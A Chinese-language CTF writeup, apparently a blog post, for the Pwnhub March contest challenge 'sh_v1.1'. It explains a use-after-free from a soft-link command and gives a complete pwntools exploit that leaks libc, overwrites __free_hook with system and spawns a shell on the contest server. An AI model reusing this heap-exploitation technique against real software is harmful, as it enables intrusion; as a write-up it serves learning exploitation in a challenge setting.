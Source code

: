 ---
title: 「PWN」【Pwnhub 三月公开赛】 Pwn Writeup WP 复现
authors: [nova]
tags: ['CTF', 'Pwn', 'writeup', 'wp']
---

## sh_v1.1
题目实现了 shell 的一些功能，不过这些我实在没看懂逻辑，不过是混淆所以也无所谓。

<!--truncate-->
![image-20230311120537451](https://cdn.n.ova.moe/img/image-20230311120537451.png)

在 `ln src dest` 这个命令中实现了软连接，不同于 `cp` 的是它直接把 `pointer_arr` 复制了过来，而不是 `malloc` 之后再 `strncpy` 拷贝，在 `rm` 原文件的时候也并没有同时删除这个软连接文件，导致可以实现 UAF



版本是 2.31，直接 Unsorted bin leak libc 后 gedit 打 freehook 即可

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

# sh = process(['./sh_v1.1'])
sh = remote("121.40.89.206", 34883)
# libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

for i in range(9):
    sh.sendlineafter(b'>>>>', f'touch {i}'.encode())
    sh.sendline(chr(i+ord('a'))*0x20)

sh.sendlineafter(b'>>>>', f'ln 1 9'.encode())  # 9 <--> 1
sh.sendlineafter(b'>>>>', f'ln 2 10'.encode())  # 10 <--> 2

for i in range(8,-1,-1):
    sh.sendlineafter(b'>>>>', f'rm {i}'.encode())


sh.sendlineafter(b'>>>>', f'cat 9'.encode())

libc_base = u64(sh.recvuntil(b'\n', drop=True).ljust(8, b'\x00')) - 96 - 0x10 - 0x1ebb70
__free_hook = libc_base + 0x01eeb28
system_addr = libc_base + 	0x055410
print("libc_base >>", hex(libc_base))

sh.sendlineafter(b'>>>>', f'gedit 10'.encode())
# gdb.attach(sh)
# pause(4)
sh.sendline(p64(__free_hook) + p64(0))

sh.sendlineafter(b'>>>>', f'touch 11'.encode())
sh.sendline(b'/bin/sh')

sh.sendlineafter(b'>>>>', f'touch 12'.encode())
sh.sendline(p64(system_addr))

sh.sendlineafter(b'>>>>', f'rm 11'.encode())
sh.interactive()
```

## kheap
详见 <Link to='/blog/2023/03/18/_内核题目的第一次尝试'> 内核题目的第一次尝试 </Link>